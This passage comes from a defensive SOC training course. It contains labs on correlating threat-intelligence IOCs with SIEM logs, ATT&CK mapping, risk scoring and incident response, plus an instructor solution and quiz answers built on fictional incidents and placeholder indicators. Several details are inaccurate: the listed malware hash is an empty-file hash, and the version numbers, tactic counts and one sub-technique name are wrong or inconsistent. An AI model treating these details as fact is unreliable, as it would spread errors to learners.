TTPs describe how attackers operate

Attribution requires high confidence

Profiles help anticipate attacks

Common Mistakes
Over-attribution – Not every attack is by a known group

Ignoring TTPs – TTPs are more reliable than other indicators

Not updating profiles – Threat actors evolve


---

# DARK WEB INTELLIGENCE → SOC CORRELATION

8.1 How External Intelligence Becomes Useful Internally
External threat intelligence is only valuable if it can be correlated with internal telemetry.

Correlation Workflow

8.2 Practical Correlation Example
External Intelligence
text
Threat Actor: DarkVector
IOC: 203.0.113.45 (C2 server)
IOC: darkvector-c2.xyz (C2 domain)
IOC: e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855 (malware hash)
Internal SIEM Search
Search 1: DNS Queries

text
data.dns.query: "darkvector-c2.xyz"
Result: 3 queries from 2 different systems

Search 2: Network Connections

text
data.srcip: "203.0.113.45" OR data.dstip: "203.0.113.45"
Result: 5 connections from 3 systems

Search 3: File Hash

text
data.win.eventdata.hash: "e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855"
Result: 1 system has the file

Correlation Results
Finding	Count	Systems
DNS queries to malicious domain	3	2 systems
Network connections to C2 IP	5	3 systems
Malicious file present	1	1 system
Investigation Conclusion
3 systems potentially compromised

1 system confirmed compromised (file present)

Scope: Limited to 3 systems

Response: Investigate and contain

PRACTICAL LAB 14: Dark Web → SOC Correlation
Lab Title: "From Intelligence to Action"
Objective
Correlate external threat intelligence with internal SIEM data.

Scenario
You have received threat intelligence about a new campaign. Your task is to search your environment for signs of compromise.

Intelligence
text
DNS Logs:
[2024-11-14 14:23:00] DNS Query: darkvector-c2.xyz from 192.168.1.101
[2024-11-14 14:24:00] DNS Query: darkvector-c2.xyz from 192.168.1.102
[2024-11-14 14:25:00] DNS Query: darkvector-c2.xyz from 192.168.1.103

Firewall Logs:
[2024-11-14 14:24:30] Connection from 192.168.1.101 to 203.0.113.45 port 443
[2024-11-14 14:25:30] Connection from 192.168.1.102 to 203.0.113.45 port 443
[2024-11-14 14:26:30] Connection from 192.168.1.103 to 203.0.113.45 port 443

Endpoint Logs:
[2024-11-14 14:24:45] File created on 192.168.1.101: C:\Windows\Temp\update_installer.exe
[2024-11-14 14:25:45] Process executed on 192.168.1.101: update_installer.exe
[2024-11-14 14:26:45] File created on 192.168.1.102: C:\Windows\Temp\update_installer.exe
[2024-11-14 14:27:45] Process executed on 192.168.1.102: update_installer.exe
Step-by-Step Procedure
Step 1: Search for Domain

Q: Which systems resolved darkvector-c2.xyz?

Answer: 192.168.1.101, 192.168.1.102, 192.168.1.103

Step 2: Search for IP

Q: Which systems connected to 203.0.113.45?

Answer: Same three systems

Step 3: Search for File

Q: Which systems have update_installer.exe?

Answer: 192.168.1.101, 192.168.1.102

Step 4: Search for Hash

Q: Which systems have the malicious hash?

Answer: Need to check file hashes on endpoints

Step 5: Assess Scope

System	DNS Query	C2 Connection	File Present	Process Executed
192.168.1.101	✓	✓	✓	✓
192.168.1.102	✓	✓	✓	✓
192.168.1.103	✓	✓	✗	✗
Step 6: Determine Response

System	Status	Action
192.168.1.101	Confirmed compromised	Isolate, investigate
192.168.1.102	Confirmed compromised	Isolate, investigate
192.168.1.103	Potentially compromised	Investigate further
Expected Output
Correlation Report:

text
INTELLIGENCE CORRELATION REPORT
==============================
Intelligence Source: CISA Alert AA-2024-11-15
Threat Actor: DarkVector

CORRELATION FINDINGS:
- 3 systems resolved malicious domain darkvector-c2.xyz
- 3 systems connected to malicious IP 203.0.113.45
- 2 systems have update_installer.exe
- 2 systems executed the malicious file

AFFECTED SYSTEMS:
- 192.168.1.101 (Confirmed - file and execution)
- 192.168.1.102 (Confirmed - file and execution)
- 192.168.1.103 (Potentially - DNS and connection only)

SCOPE: 3 systems

RECOMMENDATIONS:
1. Isolate 192.168.1.101 and 192.168.1.102 immediately
2. Investigate 192.168.1.103 for additional evidence
3. Block darkvector-c2.xyz and 203.0.113.45
4. Search for the hash across all systems
5. Escalate to incident response team

CONFIDENCE: High
Key Concepts
External intelligence must be correlated internally

Multiple data sources provide a complete picture

Scope assessment is critical for response

Documentation is essential

Common Mistakes
Not searching all data sources – Check DNS, network, endpoints

Ignoring partial matches – DNS queries without connections still matter

Delaying response – Act quickly on confirmed findings


---

# MITRE ATT&CK MAPPING

9.1 What is MITRE ATT&CK?
Layer 1: Beginner Explanation
MITRE ATT&CK is a knowledge base that describes how attackers operate. It organizes attack behaviors into tactics and techniques, helping defenders understand and respond to threats.

Hinglish: MITRE ATT&CK ek database hai jo attackers ke tareeqon ko describe karta hai. Yeh tactics aur techniques mein organize hai.

Layer 2: Technical Explanation
MITRE ATT&CK (Adversarial Tactics, Techniques, and Common Knowledge) is a globally accessible knowledge base of adversary tactics and techniques based on real-world observations.

Current Version
The current release is ATT&CK v19 (October 2025). The Enterprise matrix covers Windows, macOS, Linux, cloud, containers, and network platforms.

Enterprise Matrix Structure
Component	Count (v18)
Tactics	14
Techniques	216
Sub-techniques	475
Threat Groups	176
The 14 Enterprise Tactics
#	Tactic	ID	Description
1	Reconnaissance	TA0043	Gather information
2	Resource Development	TA0042	Acquire resources
3	Initial Access	TA0001	Gain entry
4	Execution	TA0002	Run malicious code
5	Persistence	TA0003	Maintain access
6	Privilege Escalation	TA0004	Gain higher privileges
7	Defense Evasion	TA0005	Avoid detection
8	Credential Access	TA0006	Steal credentials
9	Discovery	TA0007	Learn the environment
10	Lateral Movement	TA0008	Move to other systems
11	Collection	TA0009	Gather data
12	Command and Control	TA0011	Control compromised systems
13	Exfiltration	TA0010	Steal data
14	Impact	TA0040	Damage systems/data
9.2 Tactic vs Technique vs Sub-technique
Definitions
Level	Definition	Example
Tactic	The adversary's goal	"Initial Access"
Technique	The method used	"Spearphishing Attachment"
Sub-technique	Specific variant	"Spearphishing Attachment via Email"
Tactic-Technique Example
Tactic	Technique	ID
Execution	PowerShell	T1059.001
Persistence	Scheduled Task	T1053.005
C2	Application Layer Protocol	T1071
9.3 Evidence-Based Mapping
Mapping Process

PRACTICAL LAB 15: MITRE ATT&CK Mapping
Lab Title: "Map the Attack"
Objective
Map observed behaviors to MITRE ATT&CK tactics and techniques.

Scenario
You have investigated an incident and observed the following behaviors:

Spearphishing email sent to employee with malicious attachment

Employee opened the attachment, enabling macro

Macro downloaded PowerShell script from external server

PowerShell script executed and downloaded Cobalt Strike beacon

Cobalt Strike beacon established C2 connection

Attacker used PowerShell to enumerate domain users

Attacker created scheduled task for persistence

Attacker used RDP to move to another system

Attacker accessed sensitive files

Attacker encrypted files and demanded ransom

Step-by-Step Procedure
Step 1: Identify Each Behavior

#	Behavior
1	Spearphishing email with malicious attachment
2	Employee opened attachment, enabling macro
3	Macro downloaded PowerShell script
4	PowerShell script executed and downloaded Cobalt Strike
5	Cobalt Strike established C2 connection
6	PowerShell used to enumerate domain users
7	Scheduled task created for persistence
8	RDP used to move to another system
9	Sensitive files accessed
10	Files encrypted and ransom demanded
Step 2: Map Each Behavior

#	Behavior	Tactic	Technique	ID
1	Spearphishing email	Initial Access	Spearphishing Attachment	T1566.001
2	Macro enabled	Execution	User Execution	T1204.002
3	PowerShell script download	Execution	PowerShell	T1059.001
4	Cobalt Strike execution	Execution	Malicious File	T1204.002
5	C2 connection	C2	Application Layer Protocol	T1071
6	Domain enumeration	Discovery	Domain Discovery	T1087.002
7	Scheduled task	Persistence	Scheduled Task	T1053.005
8	RDP lateral movement	Lateral Movement	Remote Services	T1021.001
9	File access	Collection	Data from Local System	T1005
10	File encryption	Impact	Data Encrypted for Impact	T1486
Step 3: Create Mapping Table

Tactic	Technique	ID	Evidence
Initial Access	Spearphishing Attachment	T1566.001	Phishing email with malicious attachment
Execution	User Execution	T1204.002	Employee opened attachment
Execution	PowerShell	T1059.001	PowerShell script executed
C2	Application Layer Protocol	T1071	Cobalt Strike C2 connection
Discovery	Domain Discovery	T1087.002	PowerShell enumeration
Persistence	Scheduled Task	T1053.005	Scheduled task created
Lateral Movement	Remote Services	T1021.001	RDP to other system
Collection	Data from Local System	T1005	Sensitive files accessed
Impact	Data Encrypted for Impact	T1486	Files encrypted
Expected Output
MITRE ATT&CK Mapping Report:

text
MITRE ATT&CK MAPPING
===================
Incident: PIET [Panipat Institute of Engineering & Technology] - DarkVector Attack

MAPPING SUMMARY:
10 behaviors mapped to 9 techniques across 9 tactics

FULL MAPPING:
┌──────────────────────┬──────────────────────────────┬──────────────┐
│ Tactic               │ Technique                    │ ID           │
├──────────────────────┼──────────────────────────────┼──────────────┤
│ Initial Access       │ Spearphishing Attachment     │ T1566.001    │
│ Execution            │ User Execution               │ T1204.002    │
│ Execution            │ PowerShell                   │ T1059.001    │
│ C2                   │ Application Layer Protocol   │ T1071        │
│ Discovery            │ Domain Discovery             │ T1087.002    │
│ Persistence          │ Scheduled Task               │ T1053.005    │
│ Lateral Movement     │ Remote Services              │ T1021.001    │
│ Collection           │ Data from Local System       │ T1005        │
│ Impact               │ Data Encrypted for Impact    │ T1486        │
└──────────────────────┴──────────────────────────────┴──────────────┘

ATTACK CHAIN:
Spearphishing → User Execution → PowerShell → C2 → Discovery → Persistence →
Lateral Movement → Collection → Impact

CONFIDENCE: High
Key Concepts
MITRE ATT&CK is a knowledge base of adversary behavior

Tactics are goals, techniques are methods

Evidence-based mapping is more reliable than guessing

The attack chain shows the complete picture

Common Mistakes
Memorizing technique IDs – Focus on understanding, not memorization

Mapping without evidence – Always support with evidence

Ignoring sub-techniques – They provide more specificity


---

# INCIDENT RISK & CONFIDENCE ASSESSMENT

10.1 Understanding Risk
Risk Definition
Risk is the potential for loss or damage when a threat exploits a vulnerability.

Risk Formula
text
Risk = Asset Criticality + Impact + Likelihood + Scope + Evidence + Confidence
10.2 Understanding Confidence
Confidence Definition
Confidence is how strongly the available evidence supports the conclusion.

Confidence Levels
Level	Description	Criteria
Low	Limited evidence, multiple interpretations	Single source, weak evidence
Medium	Reasonable evidence, few interpretations	Multiple sources, consistent
High	Strong evidence, clear interpretation	Many sources, strong correlation
10.3 Risk Assessment Model
Factors to Consider
Factor	Description	Low	Medium	High
Asset Criticality	How important is the asset?	Low-value system	Business system	Critical system
Impact	What damage could occur?	Minor inconvenience	Moderate disruption	Significant damage
Likelihood	How likely is exploitation?	Unlikely	Possible	Likely
Scope	How many assets affected?	Single system	Multiple systems	Organization-wide
Evidence	How strong is the evidence?	Weak	Moderate	Strong
Confidence	How certain are we?	Low	Medium	High
Risk Levels
Risk Level	Description	Response
Low	Minimal risk, manageable	Monitor
Medium	Moderate risk, requires attention	Investigate
High	Significant risk, requires action	Respond
Critical	Severe risk, immediate action	Emergency response
10.4 Risk-Confidence Matrix
text
                    ┌─────────────────────────────────────────┐
                    │          CONFIDENCE                     │
                    │   LOW          MEDIUM        HIGH      │
┌───────────────────┼─────────────────────────────────────────┤
│        HIGH       │  Investigate   │  Respond   │  Respond │
│                    │  Carefully    │  Quickly   │  Urgently│
├───────────────────┼─────────────────────────────────────────┤
│        MEDIUM      │  Monitor      │ Investigate│ Respond  │
├───────────────────┼─────────────────────────────────────────┤
│        LOW        │  Monitor      │  Monitor   │Investigate│
└───────────────────┴─────────────────────────────────────────┘
Key Insight
High Risk + High Confidence = Immediate Response
High Risk + Low Confidence = Investigate Carefully

PRACTICAL LAB 16: Risk and Confidence Assessment
Lab Title: "Assess the Risk"
Objective
Assess the risk and confidence for a security incident.

Scenario
You have investigated an incident at PIET [Panipat Institute of Engineering & Technology] and have the following findings.

Findings
text
INCIDENT FINDINGS:
- System: WS-FINANCE-01 (Finance Department server)
- Data: Financial records, payroll information
- Evidence: 10 failed logins, 1 successful login from external IP, suspicious PowerShell execution
- Scope: Single system confirmed, no evidence of lateral movement
- Source: Multiple SIEM alerts correlated
- Time: Attack occurred 2 hours ago
- Status: System isolated, investigation ongoing
Step-by-Step Procedure
Step 1: Assess Asset Criticality

Factor	Assessment
System importance	Finance server, critical for operations
Data sensitivity	Financial records, payroll (highly sensitive)
Asset Criticality: High

Step 2: Assess Impact

Factor	Assessment
Potential damage	Financial data exposure, regulatory fines
Business disruption	Significant
Impact: High

Step 3: Assess Likelihood

Factor	Assessment
Exploitation likelihood	Attacker gained access, likely executed malicious activity
Likelihood: High

Step 4: Assess Scope

Factor	Assessment
Affected systems	WS-FINANCE-01 confirmed
Potential spread	No evidence of lateral movement yet
Scope: Single system (Medium)

Step 5: Assess Evidence

Factor	Assessment
Evidence quality	Multiple correlated alerts
Evidence sources	Security logs, endpoint logs, network logs
Evidence: Strong (High)

Step 6: Assess Confidence

Factor	Assessment
Consistency	Multiple alerts tell the same story
Source reliability	Logs are reliable
Alternative explanations	Unlikely
Confidence: High

Step 7: Determine Overall Risk

Factor	Rating
Asset Criticality	High
Impact	High
Likelihood	High
Scope	Medium
Evidence	High
Confidence	High
Overall Risk: High

Step 8: Determine Response

Risk Level	Confidence	Action
High	High	Immediate response
Expected Output
Risk Assessment Report:

text
RISK ASSESSMENT REPORT
====================
Incident: PIET [Panipat Institute of Engineering & Technology] - WS-FINANCE-01 Compromise

RISK ASSESSMENT:
┌─────────────────────┬──────────┐
│ Factor              │ Rating   │
├─────────────────────┼──────────┤
│ Asset Criticality   │ High     │
│ Impact              │ High     │
│ Likelihood          │ High     │
│ Scope               │ Medium   │
│ Evidence            │ High     │
│ Confidence          │ High     │
└─────────────────────┴──────────┘

OVERALL RISK: HIGH
CONFIDENCE: HIGH

RESPONSE: IMMEDIATE ACTION REQUIRED

RECOMMENDATIONS:
1. Complete system isolation
2. Full forensic investigation
3. Password reset for all affected accounts
4. Enhanced monitoring
5. Incident report for management
Key Concepts
Risk = Impact × Likelihood (plus other factors)

Confidence = How certain we are

High risk + High confidence = Immediate action

Risk assessment guides response priority

Common Mistakes
Confusing risk and confidence – They are different concepts

Overlooking asset criticality – Not all systems are equally important

Ignoring confidence – Low confidence requires caution


---

# INCIDENT RESPONSE & DEFENSIVE RECOMMENDATIONS

11.1 Incident Response Process (NIST SP 800-61r3)
The current NIST guidance (SP 800-61 Revision 3, April 2025) describes incident response as a critical part of cybersecurity risk management that should be integrated across organizational operations.

The Six Functions of CSF 2.0 in Incident Response
Function	Role in Incident Response
Govern	Establish IR policies and oversight
Identify	Identify assets, risks, and vulnerabilities
Protect	Implement safeguards to prevent incidents
Detect	Detect incidents promptly
Respond	Contain, eradicate, and recover
Recover	Restore and improve
Incident Response Phases
text
1. DETECTION
   - Identify the incident
   - Validate the incident
   - Assess severity

2. CONTAINMENT
   - Short-term containment (immediate actions)
   - Long-term containment (sustainable actions)
   - System isolation or account disablement

3. ERADICATION
   - Remove the threat
   - Remove malware, close backdoors
   - Patch vulnerabilities

4. RECOVERY
   - Restore systems from clean backups
   - Rebuild compromised systems
   - Validate system integrity

5. LESSONS LEARNED
   - Conduct post-incident review
   - Identify improvements
   - Update processes and controls
11.2 Defensive Recommendations
By Security Domain
Identity
Recommendation	Priority
Implement Multi-Factor Authentication (MFA)	Critical
Enforce strong password policies	High
Review and audit privileged accounts	High
Implement account lockout policies	Medium
Regular password rotation	Medium
Endpoint
Recommendation	Priority
Deploy EDR/XDR on all endpoints	Critical
Implement application whitelisting	High
Keep systems patched	High
Enable Windows Defender or equivalent	High
Regular vulnerability scanning	Medium
Network
Recommendation	Priority
Implement network segmentation	High
Block known malicious IPs/domains	High
Monitor for C2 communication	High
Implement DNS filtering	Medium
Use next-generation firewall	Medium
SIEM
Recommendation	Priority
Tune detection rules to reduce false positives	High
Create correlation rules for attack chains	High
Ensure all critical logs are ingested	High
Review alert volume and adjust thresholds	Medium
Create dashboards for key use cases	Medium
Email
Recommendation	Priority
Implement email filtering	High
DMARC, SPF, DKIM configuration	High
User security awareness training	High
Block malicious attachments	Medium
Sandbox suspicious emails	Medium
Threat Intelligence
Recommendation	Priority
Subscribe to threat intelligence feeds	High
Automate IOC ingestion	High
Correlate intelligence with SIEM	High
Share intelligence with partners	Medium
Use intelligence for proactive hunting	Medium
User Awareness
Recommendation	Priority
Regular security awareness training	High
Phishing simulation exercises	High
Incident reporting procedures	High
Password security education	Medium
Social engineering awareness	Medium
PRACTICAL LAB 17: Defensive Recommendations
Lab Title: "Improve the Defense"
Objective
Develop defensive recommendations based on incident findings.

Scenario
Based on the investigation of the DarkVector attack on PIET [Panipat Institute of Engineering & Technology], develop recommendations to prevent similar attacks.

Attack Summary
text
ATTACK SUMMARY:
1. Attacker sent spearphishing email to jsmith
2. jsmith opened malicious attachment
3. Macro executed PowerShell
4. PowerShell downloaded Cobalt Strike
5. Attacker used Cobalt Strike for C2
6. Attacker used PowerShell to enumerate domain
7. Attacker created scheduled task for persistence
8. Attacker used RDP for lateral movement
9. Attacker accessed sensitive files
10. Attacker encrypted files (ransomware)
Step-by-Step Procedure
Step 1: Identify Gaps in Current Defenses

Attack Step	Current Defense	Gap
Phishing	Email filtering	Not effective enough
Attachment	User awareness	User opened attachment
PowerShell	Endpoint logging	Not monitoring PowerShell
C2	Network monitoring	Did not detect C2 traffic
Persistence	Endpoint monitoring	Did not detect scheduled task
Lateral Movement	Network segmentation	RDP allowed between segments
File Access	File auditing	Not monitoring sensitive files
Ransomware	Endpoint protection	Did not prevent encryption
Step 2: Develop Recommendations

Domain	Recommendation	Priority	Addresses
Email	Implement advanced email filtering	High	Phishing
User	Regular security awareness training	High	Phishing
Endpoint	Enable PowerShell logging	High	PowerShell abuse
Network	Block known C2 IPs/domains	High	C2 traffic
Identity	Implement MFA for all users	Critical	Credential theft
Network	Segment network (finance isolated)	High	Lateral movement
Endpoint	Deploy EDR with ransomware protection	High	Ransomware
Endpoint	Monitor scheduled task creation	Medium	Persistence
File	Audit sensitive file access	Medium	Data theft
Step 3: Prioritize Recommendations

Priority	Recommendations
Critical	MFA implementation
High	Email filtering, EDR deployment, Network segmentation, PowerShell logging
Medium	File auditing, Scheduled task monitoring
Expected Output
Defensive Recommendations Report:

text
DEFENSIVE RECOMMENDATIONS
=======================
Incident: DarkVector Attack on PIET [Panipat Institute of Engineering & Technology]

CRITICAL PRIORITY:
1. Implement Multi-Factor Authentication (MFA) for all users
   - Prevents credential theft even if passwords are compromised
   - Timeline: Immediate

HIGH PRIORITY:
2. Implement advanced email filtering
   - Reduce phishing emails reaching users
   - Timeline: 1 month

3. Deploy EDR with ransomware protection
   - Detect and prevent malicious activity
   - Timeline: 3 months

4. Segment network to isolate finance department
   - Prevent lateral movement
   - Timeline: 3 months

5. Enable PowerShell logging and monitoring
   - Detect PowerShell abuse
   - Timeline: 1 month

6. Block known C2 IPs and domains
   - Prevent C2 communication
   - Timeline: Immediate

MEDIUM PRIORITY:
7. Monitor scheduled task creation
   - Detect persistence mechanisms
   - Timeline: 2 months

8. Audit sensitive file access
   - Detect data theft
   - Timeline: 2 months

9. Regular security awareness training
   - Reduce phishing success rate
   - Timeline: Ongoing

ONGOING:
10. Regular vulnerability scanning and patching
11. Review and update detection rules
12. Conduct tabletop exercises
Key Concepts
Recommendations should address specific gaps

Prioritize recommendations by impact and effort

Use a layered defense approach

Recommendations should be actionable

Common Mistakes
Overwhelming recommendations – Focus on high-priority items

Not addressing root causes – Don't just treat symptoms

Unrealistic timelines – Be practical about implementation


---

# OPERATION SHADOW TRACE – FINAL INVESTIGATION

Overview
Operation Shadow Trace is a comprehensive final investigation that brings together everything you have learned over the past two days. You will investigate a complete incident from start to finish, producing a professional SOC/CTI investigation report.

Investigation Flow
text
Alert → Triage → Evidence Collection → IOC Extraction → IOC Enrichment →
Threat Hunting → External Intelligence → Leak Validation → Threat Actor Analysis →
MITRE Mapping → Timeline Reconstruction → Risk Assessment → Confidence Assessment →
Incident Response → Final Report
Fictional Organization
NexusTech Solutions is a technology consulting firm with 500 employees. They provide IT services to financial institutions and government agencies. Their environment includes:

500 Windows workstations

50 Windows servers

Active Directory

Wazuh SIEM

Firewall and network monitoring

Incident Overview
On November 15, 2024, NexusTech's SOC received multiple alerts indicating suspicious activity. You have been assigned to investigate the incident.

PRACTICAL LAB 18: Operation Shadow Trace
Lab Title: "The Complete Investigation"
Objective
Conduct a complete end-to-end investigation and produce a professional report.

Dataset
text
ALERT 1: [2024-11-15 09:15:00] Multiple Failed Logins
- User: msmith
- Source IP: 198.51.100.25
- Count: 15 failures in 3 minutes
- Severity: Medium

ALERT 2: [2024-11-15 09:18:00] Successful Login from Unusual Location
- User: msmith
- Source IP: 198.51.100.25
- Logon Type: 10
- Severity: High

ALERT 3: [2024-11-15 09:20:00] Suspicious Process Execution
- User: msmith
- Process: powershell.exe -enc <encoded_command>
- Host: WS-DEV-01
- Severity: High

ALERT 4: [2024-11-15 09:22:00] Malware Detected
- File: C:\Users\msmith\AppData\Local\Temp\update.exe
- Hash (SHA-256): e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855
- Host: WS-DEV-01
- Severity: Critical

ALERT 5: [2024-11-15 09:25:00] Network Connection to Malicious IP
- Source: WS-DEV-01
- Destination: 198.51.100.50 port 4444
- Severity: High

ALERT 6: [2024-11-15 09:30:00] Scheduled Task Created
- User: SYSTEM
- Task: "WindowsUpdate"
- Command: C:\Users\msmith\AppData\Local\Temp\update.exe
- Host: WS-DEV-01
- Severity: Medium

ALERT 7: [2024-11-15 09:35:00] New User Account Created
- User: SYSTEM
- Account: svc_backup
- Host: WS-DEV-01
- Severity: High

ALERT 8: [2024-11-15 09:40:00] Privilege Escalation
- User: svc_backup
- Privileges: SeTcbPrivilege, SeDebugPrivilege
- Host: WS-DEV-01
- Severity: High

ALERT 9: [2024-11-15 09:45:00] RDP Connection to Domain Controller
- Source: WS-DEV-01
- Destination: DC-01
- User: svc_backup
- Severity: Critical

EXTERNAL INTELLIGENCE:
- Threat Actor: DarkVector (targets tech consulting firms)
- IOCs: 198.51.100.25, 198.51.100.50, e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855
- TTPs: Spearphishing, PowerShell abuse, Cobalt Strike, Ransomware
- Dark Web: Credentials for NexusTech employees listed for sale

LEAK CLAIM:
- Source: Dark Web Forum
- Claim: NexusTech client data stolen
- Sample: (redacted client names and project details)
- Confidence: Source has moderate reputation
Student Task
Produce a complete investigation report with the following sections:

Executive Summary – One-paragraph overview

Incident Overview – What happened

Detection Source – How it was detected

Initial Alert – First alert received

Investigation Methodology – How you investigated

Evidence – All evidence gathered

IOC Table – Extracted IOCs

IOC Enrichment – Enriched IOCs with context

Timeline – Reconstructed timeline

Threat Intelligence – External intelligence applied

Threat Actor Assessment – Who is responsible

MITRE ATT&CK Mapping – Mapped TTPs

Risk Assessment – Risk level

Confidence Assessment – Confidence level

Scope Assessment – Affected systems

Containment Recommendations – Immediate actions

Eradication Recommendations – Remove the threat

Recovery Recommendations – Restore systems

Detection Improvements – How to improve detection

Lessons Learned – What was learned

Final Analyst Conclusion – Overall assessment

Instructor Solution
1. Executive Summary
On November 15, 2024, NexusTech Solutions experienced a security incident involving the compromise of user account msmith through a brute-force attack. The attacker gained access, deployed malware (identified as Cobalt Strike), established persistence, escalated privileges, created a new admin account, and attempted lateral movement to the domain controller. External threat intelligence links this attack to the DarkVector threat actor. The incident was contained before domain compromise was achieved.

2. Incident Overview
A brute-force attack against user msmith resulted in successful compromise. The attacker used the compromised account to deploy malware, establish C2 communication, and attempt lateral movement. Critical systems (WS-DEV-01 and DC-01) were affected.

3. Detection Source
Wazuh SIEM: Alerts 1-9

Endpoint logs: Process execution, file creation

Network logs: C2 connections

External intelligence: DarkVector reporting

4. Initial Alert
Alert 1: Multiple failed logins for msmith from 198.51.100.25 (15 failures in 3 minutes).

5. Investigation Methodology
The investigation followed a structured approach:

Reviewed all SIEM alerts

Correlated alerts by user, IP, and host

Extracted and enriched IOCs

Applied external threat intelligence

Reconstructed the timeline

Assessed risk and confidence

6. Evidence
Evidence	Source	Relevance
15 failed logins	Security logs	Brute force
Successful login from 198.51.100.25	Security logs	Compromise
PowerShell with encoded command	Security logs	Execution
update.exe (hash provided)	Endpoint logs	Malware
C2 connection to 198.51.100.50	Network logs	C2
Scheduled task "WindowsUpdate"	Security logs	Persistence
svc_backup account created	Security logs	Account creation
Privilege escalation	Security logs	Privilege escalation
RDP to DC-01	Security logs	Lateral movement
7. IOC Table
Type	IOC Value	Confidence
IP	198.51.100.25	High
IP	198.51.100.50	High
Hash	e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855	High
User	msmith	High
User	svc_backup	High
File	C:\Users\msmith\AppData\Local\Temp\update.exe	High
Task	WindowsUpdate	Medium
8. IOC Enrichment
IOC	Enrichment Result	Source
198.51.100.25	Known C2 server for DarkVector	VirusTotal, AlienVault
198.51.100.50	Known C2 server for DarkVector	VirusTotal, AlienVault
e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855	Cobalt Strike beacon (detected 55/70)	VirusTotal
9. Timeline
Time	Event	Phase
09:15:00	15 failed logins for msmith	Brute force
09:18:00	Successful login (msmith from 198.51.100.25)	Compromise
09:20:00	PowerShell with encoded command	Execution
09:22:00	update.exe executed	Malware
09:25:00	C2 connection to 198.51.100.50	C2
09:30:00	Scheduled task "WindowsUpdate" created	Persistence
09:35:00	svc_backup account created	Account creation
09:40:00	Privilege escalation (svc_backup)	Privilege escalation
09:45:00	RDP to DC-01	Lateral movement
10. Threat Intelligence
External intelligence confirms that the IOCs (198.51.100.25, 198.51.100.50, and the hash) are associated with the DarkVector threat actor. DarkVector targets technology consulting firms and uses Cobalt Strike for C2.

11. Threat Actor Assessment
Attribute	Assessment
Actor	DarkVector
Motivation	Financial (ransomware)
Targeting	Technology consulting firms
Malware	Cobalt Strike, custom ransomware
Confidence	High
12. MITRE ATT&CK Mapping
Tactic	Technique	ID
Initial Access	Brute Force	T1110
Execution	PowerShell	T1059.001
Execution	Malicious File	T1204.002
C2	Application Layer Protocol	T1071
Persistence	Scheduled Task	T1053.005
Persistence	Account Creation	T1136.001
Privilege Escalation	Valid Accounts	T1078
Lateral Movement	Remote Services	T1021.001
13. Risk Assessment
Factor	Rating
Asset Criticality	Critical (DC-01 targeted)
Impact	High (client data at risk)
Likelihood	High (attack in progress)
Scope	Medium (2 systems confirmed)
Evidence	High
Confidence	High
Overall Risk: Critical

14. Confidence Assessment
Confidence: High

Multiple independent sources confirm the attack: SIEM alerts, endpoint logs, network logs, and external threat intelligence all tell the same story.

15. Scope Assessment
System	Status
WS-DEV-01	Confirmed compromised
DC-01	Targeted, not confirmed compromised
Other systems	No evidence of compromise
16. Containment Recommendations
Isolate WS-DEV-01 immediately

Disable msmith and svc_backup accounts

Block 198.51.100.25 and 198.51.100.50 at firewall

Reset all passwords for affected accounts

Disable RDP from non-admin systems to DC-01

17. Eradication Recommendations
Remove update.exe and related files

Remove scheduled task "WindowsUpdate"

Remove svc_backup account

Reimage WS-DEV-01

Analyze and remove any additional malware

18. Recovery Recommendations
Restore WS-DEV-01 from clean backup or rebuild

Implement enhanced monitoring for all affected accounts

Validate DC-01 integrity

Conduct full vulnerability scan

19. Detection Improvements
Create correlation rule for brute force → successful login → process execution

Enable command-line logging for process creation events

Implement alert for scheduled task creation by non-admin users

Create alert for new account creation in privileged groups

20. Lessons Learned
MFA would have prevented this attack (implement urgently)

RDP should not be allowed from non-admin systems to DC-01

PowerShell logging should be enabled on all systems

User awareness training needs to cover credential protection

Threat intelligence integration with SIEM was effective

21. Final Analyst Conclusion
This is a confirmed critical security incident. The DarkVector threat actor successfully compromised NexusTech Solutions through a brute-force attack against user msmith. The attacker deployed Cobalt Strike, established persistence, created a new admin account, and attempted lateral movement to the domain controller. The incident was contained before domain compromise was achieved. Immediate implementation of MFA, network segmentation, and enhanced monitoring is recommended.

FINAL COURSE ASSESSMENT
25 Questions
Basic Concepts
What is a SOC?
Answer: A Security Operations Center is a team that monitors, detects, investigates, and responds to cyber threats.

What is the difference between an event and an alert?
Answer: An event is any observable occurrence; an alert is a notification that an event may be suspicious.

What is an IOC?
Answer: An Indicator of Compromise is evidence that suggests a system may be compromised.

SOC Investigation
What is the L1 analyst workflow?
Answer: Alert → Validation → Triage → Context Gathering → Investigation → Severity Assessment → Escalation → Documentation

What is alert correlation?
Answer: Connecting multiple security events to determine if they form one larger attack pattern.

What is the difference between brute force and password spraying?
Answer: Brute force tries many passwords against one account; password spraying tries one password against many accounts.

Windows Logs
What does Event ID 4624 indicate?
Answer: An account was successfully logged on

What does Event ID 4625 indicate?
Answer: An account failed to log on

What does Event ID 4688 indicate?
Answer: A new process has been created

What is Logon Type 10?
Answer: Remote Interactive (RDP) login

SIEM
What is a SIEM?
Answer: Security Information and Event Management – a platform that collects, analyzes, and alerts on security data.

What is Wazuh?
Answer: An open-source SIEM and XDR platform for security monitoring and threat detection

What are the main components of Wazuh?
Answer: Agent, Manager, Indexer, Dashboard

IOC Investigation
What is IOC enrichment?
Answer: Adding context to an IOC by querying intelligence sources.

What is VirusTotal used for?
Answer: Checking file hash reputation against multiple antivirus engines.

